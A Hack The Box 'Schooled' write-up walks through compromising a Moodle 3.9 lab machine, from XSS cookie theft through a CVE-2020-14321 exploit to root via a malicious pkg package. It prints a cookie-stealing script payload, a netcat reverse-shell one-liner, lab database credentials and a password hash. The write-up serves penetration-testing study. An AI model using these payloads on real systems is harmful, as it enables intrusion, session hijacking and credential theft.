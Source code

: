 # 📦 HTB - Schooled


> Cool box, not too CTF-like and real-life applicable, my first FreeBSD :smile: But root part was too quick.

## TL;DR

XSS to steal Moodle creds of teacher, privesc as manager and then RCE. Get MySQL in config file, dump users and get password hash. Break the hash with john to ssh as user. Common `pkg install` exploit for root.

## Footholds

```
# Nmap 7.91 scan initiated Mon Aug  2 22:40:05 2021 as: nmap -A -p- -T4 -o nmap.out schooled.htb
Nmap scan report for schooled.htb (10.10.10.234)
Host is up (0.082s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
...
```

The website we have seems to be static, no JavaScript to exploit, not so much to do :thinking:

After a while I read that they are talking about a Moodle on this site. So I decided to find it, `moodle.schooled.htb`!

## Entrypoint

### XSS you say?

Found the version by visiting some forbidden page for my user: Moodle 3.9.

![userpix](userpix.png)

We got those email domains: `student.schooled.htb` & `staff.schooled.htb`.

Looking for exploits for this version, I found an XSS payload for `MoodleNet` in user profile. By chance, a teacher (maths class) is looking for enroled students' MoodleNet profiles.

MoodleNet: `<script>new Image().src="http://your-ip:port/" + document.cookie</script>`
`python3 -m http.server port`

See [here for more details about the XSS](https://github.com/HoangKien1020/CVE-2020-25627).

By starting an HTTP server on our machine, we get the teacher's session cookie.

![Teacher session cookie](teacher_session.png)

![Logged as teacher](teacher_log.png)

### Get manager access

After some research on this Moodle version, I found a good exploit to use: [https://github.com/lanzt/CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).

No need to fix this exploit, even if this is not the original exploit script for this CVE, I used it because it was the first to show in the search engine.

```sh
python3 cve.py http://moodle.schooled.htb/moodle -c "whoami" --cookie TEACHER_COOKIE
[...]
www
```

As this box was FreeBSD, `nc` does not work the same, we need a bigger payload for a reverse shell:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`

So my command to get a reverse shell:

```sh
python3 cve.py http://moodle.schooled.htb/moodle -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" --cookie TEACHER_COOKIE
```

On another terminal:

```sh
nc -nlvp PORT
$ whoami
www
$
```

We have now a reverse shell! Let's get user.

## User

List user directories:

```
$ ls /home
/home/steve
/home/jamie
```

By looking in the moodle's directory we get this config file:

```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

We have now MySQL creds, let's use them:

```sh
/usr/local/bin/mysql -umoodle -p
Password:


```

Weird... We should get a shell here.

In fact the exploit we use is not meant to nest child shells. For example we can't just `bash` to get a bash shell, we must stay in our shell.

Fortunaletly we can execute commands using MySQL's binary:

```sh
/usr/local/bin/mysql -umoodle -pPlaybookMaster2020 -D moodle -e "show tables;"
```

![MySQL tables](mysql_exec.png)

We dump the users:

```sql
select * from mdl_user;
```

The interesting line here is:

```
admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW          Jamie   Borham  jamie@staff.schooled.htb
```

We need to crack this hash. Let's use john:

![Jamie password](jamie.png)

We can SSH with this.

## Root

Classic:

```
sudo -l

(NOPASSWD) /usr/sbin/pkg update
(NOPASSWD) /usr/sbin/pkg install *
```

Using this [https://gtfobins.github.io/gtfobins/pkg/](https://gtfobins.github.io/gtfobins/pkg/) we build our package to RCE as root:

```sh
# local
echo 'cat /root/root.txt' > a.sh
fpm -n x -s dir -t freebsd -a all --before-install a.sh .
scp x-1.0.txz jamie@schooled.htb:/tmp
```

```sh
# ssh
sudo /usr/sbin/pkg install -y --no-repo-update /tmp/x-1.0.txz
...
/root/root.txt hash here
```

![Rooted.png](rooted.png)

